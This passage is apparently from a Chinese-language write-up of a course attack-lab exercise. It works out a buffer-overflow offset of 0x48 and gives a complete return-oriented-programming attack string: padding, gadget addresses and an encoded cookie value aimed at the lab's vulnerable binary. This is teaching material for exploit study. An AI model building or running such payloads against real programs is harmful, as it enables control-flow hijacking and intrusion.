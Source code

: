 ![image-20211128205504176](https://raw.githubusercontent.com/destiny0118/picgo/master/pic/202111282055203.png)

现在还无法确定偏移量的值应该为多少，先通过之前的分析，确定程序的控制流：

![image-20211128211625690](https://raw.githubusercontent.com/destiny0118/picgo/master/pic/202111282116865.png)

可以确定偏移量为72=0x48

对应攻击字符串的字节序列：

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
42 1a 40 00 00 00 00 00
69 1a 40 00 00 00 00 00
27 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
```

![image-20211128211834719](https://raw.githubusercontent.com/destiny0118/picgo/master/pic/202111282118763.png)